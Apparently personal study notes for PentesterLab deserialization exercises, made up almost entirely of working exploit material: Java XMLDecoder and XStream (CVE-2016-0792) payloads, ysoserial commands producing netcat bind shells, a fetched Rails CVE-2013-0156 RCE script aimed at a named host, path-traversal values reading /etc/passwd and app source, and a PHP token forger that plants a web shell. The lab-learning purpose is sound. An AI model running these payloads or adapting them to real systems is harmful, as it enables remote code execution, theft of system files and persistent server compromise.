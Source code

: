 ## PTL White Random Notes

#### XMLDecoder
```
Runtime run = Runtime.getRuntime();
String[] commands = new String[] { "/usr/bin/nc", "-l","-p", "9999", "-e", "/bin/sh" };
run.exec(commands );
```
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="2">
          <void index="0">
              <string>cat</string>
          </void>
          <void index="1">
              <string>/etc/passwd</string>
          </void>
      </array>
      </void>
 </object>
</java>
```

#### CVE-2016-0792
```
<map>
  <entry>
    <groovy.util.Expando>
      <expandoProperties>
        <entry>
          <string>hashCode</string>
          <org.codehaus.groovy.runtime.MethodClosure>
            <delegate class="groovy.util.Expando"/>
            <owner class="java.lang.ProcessBuilder">
              <command>
                <string>/usr/local/bin/score</string>
                <string>39c0b5b5-3dab-4d9b-a685-27503157e66f</string>
              </command>
            </owner>
            <method>start</method>
          </org.codehaus.groovy.runtime.MethodClosure>
        </entry>
      </expandoProperties>
    </groovy.util.Expando>
    <int>1</int>
  </entry>
</map>
```

#### ObjectInputStream

- java -jar ysoserial-0.0.4-all.jar Spring1 "/usr/bin/nc -l -p 9999 -e /bin/sh" 
- To avoid new lines on linux => base64 -w 0
- Burp Extension JavaSerialKiller can also be used
- Now we need to find where the serialized object is used. A good indicator is the string rO0, which is the base64 encoded version of \xac\xed\x00.
- java -jar ysoserial-0.0.4.jar Spring1 "/usr/bin/nc -l -p 9999 -e /bin/sh" | base64 -w 0
- nc vulnerable 9999
- java -jar ysoserial-0.0.4.jar Spring1 "cat /etc/passwd" | base64 -w 0
- rO0ABXNyAA92dWxuZXJhYmxlLlVzZXI5zyo_QTFh_wIAAUwACHVzZXJuYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7eHB0AAR0ZXN0
- the exploitation of a call to the method readObject() on an ObjectInputStream object in an Spring application

#### CVE-2013-0156: Rails Object Injection

- https://gist.github.com/postmodern/4499206
- X-HTTP-Method-Override
    
- docker run -it ruby:2 /bin/bash
- gem install ronin-support
- curl https://gist.githubusercontent.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb -o rails_rce.rb
- ruby rails_rce.rb https://pelotascore.com/ '`cat /etc/password`'

#### API to SHell

###### PHP COMPARISONS

```
bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )
```

```
<?php
var_dump("1" === 1);
var_dump("1" == 1);
var_dump("a" == 0);
var_dump("1' or 1=1" == 1);
var_dump("<script>alert(1)</script>" == 0);
?>
```

###### Register

`curl -x 127.0.0.1:8080 -X POST -H "Content-Type: application/json" -d '{"username":"goenix","password":"password"}' <RHOST>/register`

###### Login
```
curl -X POST -H "Content-Type: application/json" -d '{"username":"goenix","password":"password"}' http://ptl-f4162c00-c3706b0f.libcurl.so/login
```

###### List Files

`curl -X POST -H "Content-Type: application/json" -d '{"token":"$token"}' <RHOST>/files`


###### Upload a file

`curl -X POST -H "Content-Type: application/json" -d '{ "token": "$token", "filename": "hello.txt", "content": "Hello Everyone"}' <RHOST>/upload`

###### Retrieve a file

`curl -x 127.0.0.1:8080 -X POST -H "Content-Type: application/json" -d '{ "token": "$token", "uuid": "$uuid", "sig": 0}' <RHOST>/file`
#
- *uuid(s):*
- ../../../../../../etc/passwd
- ./../../../.././var/www/index.php
- ../../../../.././var/www/router.php
- ../../../../.././var/www/classes/db.php
- ../../../../.././var/www/classes/user.php
- ../../../../../././././var/www/classes/file.php
- ../../../../../././var/www/classes/utils.php
#
- VIM REGEX FORMATTING => /\\n/^M/g
#
- From serialization to code execution => trampoline functions or gadgets
- __wakeup() when an object is deserialized.
- __destruct() when an object is deleted.
- __toString() when an object is converted to a string.
#
```
<?php

define('KEY', "ooghie1Z Fae8aish OhT3fie6 Gae2aiza");

function sign($data) {
  return hash_hmac('md5', $data, KEY);
}

function tokenize($user) {
  $token = urlencode(base64_encode(serialize($user)));
  $token.= "--".sign($token);
  return $token;
}

class File {
  public $owner,$uuid='<?php system($_GET["c"]); ?>';
  public $logfile = "/var/www/shell.php";
}

echo tokenize(new File());

?>
```